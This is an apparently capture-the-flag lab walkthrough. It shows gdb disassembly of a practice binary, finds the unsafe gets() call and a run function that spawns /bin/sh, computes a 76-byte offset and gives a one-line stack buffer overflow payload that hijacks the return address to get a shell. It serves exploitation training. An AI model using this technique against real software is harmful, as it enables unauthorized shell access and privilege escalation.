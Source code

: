 ```gdb
disass main
```

> Use __set disassembly-flavor intel__ command to set the intel syntax.

```gdb
Dump of assembler code for function main:
   0x08048480 <+0>:	    push   ebp
   0x08048481 <+1>:	    mov    ebp,esp
   0x08048483 <+3>:	    and    esp,0xfffffff0
   0x08048486 <+6>:	    sub    esp,0x50
   0x08048489 <+9>:	    lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
```

After check the man of the *gets* function, note the section *BUGS*:

```man
Never use gets().  Because it is impossible to tell without knowing the data in ad‐
vance  how  many  characters  gets() will read, and because gets() will continue to
store characters past the end of the buffer, it is extremely dangerous to use.   It
has been used to break computer security.  Use fgets() instead.

For  more  information, see CWE-242 (aka "Use of Inherently Dangerous Function") at
http://cwe.mitre.org/data/definitions/242.html
```

Check the [suggested link](https://cwe.mitre.org/data/definitions/242.html) talking of __overflow__.

Do some research to find this [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) ressource.

Because the address where to write given in argument to the *gets* function is pointing on the stack frame, the exploit we have to use is a [stack buffer overflow](https://en.wikipedia.org/wiki/Stack_buffer_overflow) (link finded from the previous one).

We want to overflow the stack frame part allowed for local variable to the return address (eip register) of the current *main* function for jump to where we want instead of returning where the *main* function was called from.

Find somewhere to jump by checking functions:

```gdb
info functions
```

```gdb
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

Look what's in the *run* function:

```gdb
disass run
```

```gdb
Dump of assembler code for function run:
   0x08048444 <+0>:	    push   ebp
   0x08048445 <+1>:	    mov    ebp,esp
   0x08048447 <+3>:	    sub    esp,0x18
   0x0804844a <+6>:	    mov    eax,ds:0x80497c0
   0x0804844f <+11>:	mov    edx,eax
   0x08048451 <+13>:	mov    eax,0x8048570
   0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:	mov    DWORD PTR [esp],eax
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
```

Note the call to the *system* function.

```man
The system() library function uses fork(2) to create a child process that executes the shell command specified in command using execl(3).
```

Check what is given as an argument to the *system* function:

```gdb
x/s 0x8048584
```

```gdb
0x8048584:	 "/bin/sh"
```

So call this *run* function is what we want, because it gives use the access to the shell with the rights for the *level1* binary.

Have to point the return address (eip register) saved in the stack of the the *main* function to this *run* function.

Let's check how many byte need to write in the stack to access to the return address:

```gdb
b *0x08048490
run
x $esp
info frame
```

```gdb
...
0xbffff5e0:     0xbffff5f0
...
 Saved registers:
  ebp at 0xbffff638, eip at 0xbffff63c
```

Here the __esp__ register (before the call of the *gets* function using the break) points to *0xbffff5f0* and the return address (__eip__ saved register) is saved at *0xbffff63c*.

Compute the difference between these two addresses to know how many byte have to write for access to the saved return address in the stack.

> esp - saved eip = 0xbffff63c - 0xbffff5f0 = 3221222972 - 3221222896 = __76 bytes__

To overwrite the saved eip return address, the input need to have a length of 76 bytes followed by the value we want (here the *run* function address).

> The address value need to be reversed because the stack is writed from the top to the bottom, and next it's readed in the opposite way (from the bottom to the end).

```bash
(echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x44\x84\x04\x08" ; cat) | ./level1
```

> "\x44\x84\x04\x08" is the reversed *run* function address (initially 0x __08048444__).

> Use __cat__ to keep stdin open.